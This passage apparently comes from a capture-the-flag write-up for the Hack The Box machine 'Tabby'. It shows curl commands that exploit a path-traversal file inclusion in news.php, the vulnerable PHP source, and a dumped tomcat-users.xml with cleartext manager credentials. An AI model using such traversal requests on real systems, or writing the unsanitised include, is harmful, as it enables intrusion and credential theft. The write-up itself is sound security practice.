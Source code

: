 ```console
```

```php
$ curl --output - http://megahosting.htb/news.php?file=../../../../../../var/www/html/news.php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

#### 8080/tcp-http

Tomcat! See "Remote Code Execution" below.

## Remote Code Execution

Using the LFI on the primary web app, it's possible to dump the `tomcat-users.xml` file which contains the cleartext password for the Tomcat manager apps:

I spent a _very_ long time trying to figure out the exact location of the `tomcat-users.xml` file, and eventually I had to look up a hint.

```console
$ curl --output - http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
...
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

This grants access to the `/host-manager` endpoint:

![](_/htb-tabby-20240809-2.png)
